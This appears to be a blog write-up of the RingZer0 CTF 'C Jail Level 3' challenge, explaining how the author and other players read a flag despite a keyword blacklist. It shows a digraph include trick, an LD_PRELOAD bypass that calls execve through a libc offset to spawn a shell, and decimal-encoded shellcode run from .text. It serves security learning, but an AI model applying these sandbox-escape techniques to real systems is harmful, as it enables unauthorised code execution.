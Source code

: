 # Level 3
```c
RingZer0 Team Online CTF

C Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm,open,read,mmap,brk,sh,#,sys,\x" keyword

-----------------------------
Your C code:
```

I must admit that although this challenge wasn't that difficult it took me way to much time to find a reasonable solution. My first ideea was to write shellcode that would read `flag.txt` and dump its content. This is also the reason I wrote "[Testing Shellcodes](http://blog.dornea.nu/2016/08/23/testing-shellcodes/)". However, I've noticed that `\x` (hex code) couldn't be used as a keyword. Instead of giving up my first idea I should have think of some way how to re-write those hex codes to sth different: octal values or integer values of chars. That way I would have had bypassed the `\x` restriction.

First I'll try to write down my thoughts which lead to the solution. Afterwards I'll show some other cool solutions I've seen in the write-ups.

After trying hard I've decided to buy the hint:

```
#include alias for old system?
```

Then I was looking for another preprocessor directives meant to embed/include code in other files. But I didn't find sth useful. Besides that all preprocessor directives start with '#' which was a bad keyword. However, this assumption was wrong.

Somebody told me then that I should look for an "old function" which could do the same. Functions, you say. All'right! At (https://www.gnu.org/software/libc/manual/html_node/Function-Index.html)[https://www.gnu.org/software/libc/manual/html_node/Function-Index.html] you can find all libc functions available. But I had to do some filtering:

* since the open and read keywords weren't allowed, I wasn't able to create any file streams (FILE ) or file descriptors* (int fd)
that means that all functions taking a `FILE *` pointer or a file descriptor `int fd` weren't suitable
* the exec* family (execl, execlp, execle, execv, execvp, execvpe) was also not a good ideea since these functions were disabled by the `LD_PRELOAD` override
* `malloc` was also disabled by the override so no functions using malloc internally could be used

Finally I was desperately searching for some functions but I couldn't find one. I think I was overthinking the solution way to much: I was hoping to find a function (in the context of C code) which would then include `flag.txt` and try to interpret its content as valid C code. Since the flag file contains no valid code, the compiler will then produce some error messages which hopefully will dump the flag inside `flag.txt`. Unfortunately after "parsing" the libc functions index site I couldn't find anything.

Finally, somebody (thx nsr @nullsecurity.net IRC channel) told that there might be a way to accomplish "#include" without using "#". The hint I was after was called [Digraphs/Trigraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs). Especially for the C language the preprocessor is able to replace digraphs/trigraphs by their [single-character equivalents before any other processing](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C). This way I was able to trigger the error message I was hoping for:

```c
Your C code:
%:include "/home/level3/flag.txt"
DONE

-----------------------------
Compiling your code.
In file included from /tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:13:0:
/home/level3/flag.txt: In function ‘_24f9c1e3682289873677f3f7f79ea8df’:
/home/level3/flag.txt:1:1: error: ‘FLAG’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
 ^
/home/level3/flag.txt:1:1: note: each undeclared identifier is reported only once for each function it appears in
/home/level3/flag.txt:1:6: error: ‘BE79t326XS03122r5A4206tv395P64WB’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
      ^
/tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:16:1: error: expected ‘;’ before ‘}’ token
 }
 ^
Your code does not compile.
There we go: FLAG-BE79t326XS03122r5A4206tv395P64WB
```

## Other solutions

Bypass `LD_PRELOAD`
As I've noticed some functions (among these also `execve()`) were disabled due to the `LD_PRELOAD` override. Some [smart guy](https://ringzer0team.com/profile/2319) managed it to find in memory the real libc functions and thus bypassing the `LD_PRELOAD` override. Using [libcdb.com](http://libcdb.com/) you can identify the exact version of the used libc version by finding out the addresses of some functions (in his case `puts` and `printf`):

```c
Compiling your code.
Executing your code.
puts: 0x7ffe36166e30
printf: 0x7ffe3614b400
```

After finding the exact libc version, he/she downloaded the file and had a look at it:

```c
$ readelf -s libc-2.19_15.so | grep puts
   184: 000000000006fe30   399 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.2.5
   400: 000000000006fe30   399 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.2.5      <--- the one we have
   471: 00000000000fef10  1031 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.2.5      
   644: 0000000000100900   555 FUNC    GLOBAL DEFAULT   12 putsgent@@GLIBC_2.10
  1089: 000000000006e730   303 FUNC    WEAK   DEFAULT   12 fputs@@GLIBC_2.2.5
  1597: 000000000006e730   303 FUNC    GLOBAL DEFAULT   12 _IO_fputs@@GLIBC_2.2.5
  2199: 0000000000073a80    95 FUNC    GLOBAL DEFAULT   12 fputs_unlocked@@GLIBC_2.2.5

$ greadelf -s libc-2.19_15.so | grep execve
   987: 00000000000c1360   200 FUNC    GLOBAL DEFAULT   12 fexecve@@GLIBC_2.2.5
  1418: 00000000000c1330    34 FUNC    WEAK   DEFAULT   12 execve@@GLIBC_2.2.5    <--- the one we want
```  

By calculating the offset between `puts` and `execve` he/she could then build following code:

```c
int (*real_execve)(const char *, char *const *, char * const *) = (void*)puts + <OFFSET>;
char program[] = {47, 98, 105, 110, 47, 98, 97, 115, 104, 0};
real_execve(program, 0, 0);
```

Clever!

## Execute shellcode
Since I was initially trying to execute shellcode, I was very curios about any similar solutions. [killer2](https://ringzer0team.com/profile/5732) had a very elegant solution:

```c
// Place the shellcode inside the .text section
static const char __attribute__((section (".text"))) code[] = { 72,129,236,255,15,0,0,72,49,255,72,141,52,36,106,50,90,72,49,192,15,5,72,135,254,72,49,246,106,2,88,15,5,72,141,52,36,106,100,90,72,151,72,49,192,15,5,106,1,95,72,137,194,106,1,88,15,5,72,129,196,255,15,0,0,195 };

// Run the shellcode
(*(void(*)())code)();
```

Nice!